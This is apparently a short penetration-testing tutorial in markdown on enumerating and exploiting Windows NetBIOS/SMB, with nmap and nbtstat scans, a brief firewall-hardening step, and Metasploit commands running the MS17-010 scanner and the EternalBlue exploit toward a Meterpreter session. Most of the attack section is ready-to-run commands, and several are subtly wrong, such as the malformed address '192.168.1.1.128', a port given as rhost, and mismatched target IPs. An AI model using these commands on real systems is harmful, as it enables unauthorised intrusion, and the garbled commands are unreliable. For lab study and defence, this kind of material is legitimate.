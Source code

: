 # NetBIOS/SMB Penetration on Windows

---

### Scanning open port for NetBIOS Enumeration

> You will scan the target network for open TCP and UDP ports and protocol.

```bash
nmap -sT -sU 192.168.1.128
```

#### Ports That Open

### 

## You Can Enumerate The Network Using Nbtstat

```bash
nbtstat -a 192.168.1.128
```

### Hardening The Targeted System

#### Open Windows Firewall Settings

#### Filtering Ports 135-139

> 1. Click on Inbound Rules
> 2. Click NEW RULE
> 3. Click Button for port to create new rule \(TCP or UDP\)
> 4. Click Next
> 5. Click UDP port to apply rule
> 6. Click next
> 7. Chose Block Connection

#### Scan Target System Again

```
nbtstat -a 192.168.1.128
```

#### 

## Exploit Target System Using Metasploit

```
msf > search smb_ms17_010

msf > Use auxiliary/scanner/smb/smb_ms17_010

msf auxiliary(smb_ms17_010) > set rhost 192.168.1.28

msf auxiliary(smb_ms17_010) > set port 445

msf auxiliary(smb_ms17_010) > exploit
```

### Exploit Results

> From the results you will see that the system is vulnerable to the scan
>
> * **rhost** is the target system IP address
> * **lhost** is your system IP address

```
search smb_ms17_010_eternalblue

use exploit/windows/smb/ms17_010_eternalblue

msf exploit(ms17_010_eternalblue) > set rhost 192.168.1.1.128

msf exploit(ms17_010_eternalblue) > set rhost 445

msf exploit(ms17_010_eternalblue) > set lhost 192.168.1.115

msf exploit(ms17_010_eternalblue) > exploit
```

#### Meterpreter Session

> Meterpreter session of targeted system will show information regarding the system























